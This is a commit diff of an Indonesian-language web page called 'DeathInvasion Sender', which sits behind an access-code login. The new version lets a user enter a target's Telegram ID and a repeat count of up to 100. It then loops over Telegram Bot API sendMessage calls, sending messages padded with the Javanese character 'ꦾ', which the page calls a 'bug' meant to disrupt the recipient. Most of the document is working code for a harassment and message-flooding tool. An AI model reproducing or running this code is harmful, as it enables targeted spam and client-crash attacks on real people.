

Before and after one commit to BimxyzDev/Deathinvasion-via-tele, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (236-1043 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,103 +2,47 @@
 <html lang="id">
 <head>
   <meta charset="UTF-8" />
-  <title>DeathInvasion</title>
+  <title>DeathInvasion Sender</title>
   <style>
-    * {
-      margin: 0;
-      padding: 0;
-      box-sizing: border-box;
+    body {
+      font-family: Arial, sans-serif;
+      background: #111;
+      color: #0f0;
+      text-align: center;
+      padding: 40px;
     }
-
-    html, body {
-      height: 100%;
-      background: #0a0a0a;
-      color: #00ff00;
-      font-family: 'Segoe UI', sans-serif;
+    input, button {
+      padding: 10px;
+      font-size: 1rem;
+      margin: 10px;
+      width: 250px;
     }
-
-    .container {
-      height: 100%;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-      padding: 4rem;
+    button {
+      cursor: pointer;
+      background: #0f0;
+      border: none;
+      color: #000;
     }
-
-    .login-box {
-      background: #161616;
-      padding: 4rem;
-      border-radius: 16px;
-      box-shadow: 0 0 50px rgba(0, 255, 0, 0.3);
-      width: 100%;
-      max-width: 700px;
-      text-align: center;
-    }
-
-    h1 {
-      margin-bottom: 2.5rem;
-      font-size: 3rem;
-      color: #00ff00;
-    }
-
-    input {
-      width: 100%;
-      padding: 1.4rem;
-      font-size: 1.5rem;
-      margin-bottom: 2rem;
-      border-radius: 10px;
-      border: none;
-      background: #222;
-      color: #0f0;
-    }
-
-    button {
-      width: 100%;
-      padding: 1.4rem;
-      font-size: 1.5rem;
-      background: #0f0;
-      color: #000;
-      border: none;
-      border-radius: 10px;
-      cursor: pointer;
-      transition: background 0.3s;
-    }
-
-    button:hover {
-      background: #00cc00;
-    }
-
     #main, #target-section {
-      margin-top: 2.5rem;
       display: none;
-    }
-
-    label {
-      font-size: 1.3rem;
-      margin-bottom: 1rem;
-      display: block;
-      color: #aaa;
     }
   </style>
 </head>
 <body>
 
-  <div class="container">
-    <div class="login-box">
   <h1>💀 DeathInvasion Login</h1>
 
   <div id="login">
-        <input type="text" id="code-token" placeholder="Masukkan kode akses">
+    <input type="text" id="code-token" placeholder="Masukkan kode akses"><br>
     <button onclick="verifyCode()">🔓 Masuk</button>
   </div>
 
   <div id="main">
+    <h2>💥 Sender Aktif</h2>
     <div id="target-section">
-          <label for="target-id">Masukkan ID Telegram Target:</label>
-          <input type="text" id="target-id" placeholder="contoh: 123456789">
+      <input type="text" id="target-id" placeholder="ID Telegram Target"><br>
+      <input type="number" id="repeat-count" placeholder="Jumlah Repeat" min="1" max="100"><br>
       <button onclick="sendBug()">🚀 Kirim Bug</button>
-        </div>
-      </div>
     </div>
   </div>
 
@@ -128,28 +72,34 @@
     }
 
     async function sendBug() {
-      const targetId = document.getElementById('target-id').value.trim();
-      if (!targetId) return alert("Isi ID dulu 😹");
+      const id = document.getElementById('target-id').value.trim();
+      const repeat = parseInt(document.getElementById('repeat-count').value);
 
-      const ultraBug = "ꦾ".repeat(1);
+      if (!id) return alert("Isi ID dulu 😹");
+      if (!repeat || repeat <= 0 || repeat > 100) return alert("Jumlah repeat tidak valid (1–100)");
+
+      for (let i = 1; i <= repeat; i++) {
         const payload = {
-        chat_id: targetId,
-        text: `*DEATH INVASION FINAL STRIKE*` + ultraBug,
+          chat_id: id,
+          text: `💣 *DEATH INVASION [${i}/${repeat}]* 💣\n` + "ꦾ".repeat(4),
           parse_mode: "Markdown"
         };
 
-      for (let i = 1; i <= 5; i++) {
+        try {
           await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
-          method: "POST",
-          headers: { "Content-Type": "application/json" },
+            method: 'POST',
+            headers: { 'Content-Type': 'application/json' },
             body: JSON.stringify(payload)
           });
 
-        console.log(`💥 Kirim [${i}/5]`);
-        await new Promise(res => setTimeout(res, 700));
+          console.log(`✅ Pesan ${i} terkirim`);
+          await new Promise(res => setTimeout(res, 600)); // delay antar pesan
+        } catch (err) {
+          console.error(`❌ Gagal kirim ${i}:`, err);
+        }
       }
 
-      alert("✅ Bug sukses terkirim!");
+      alert(`✅ Semua ${repeat} bug berhasil dikirim ke ID: ${id}`);
     }
   </script>
 
```
Lines whose indentation alone changed are shown as unchanged.
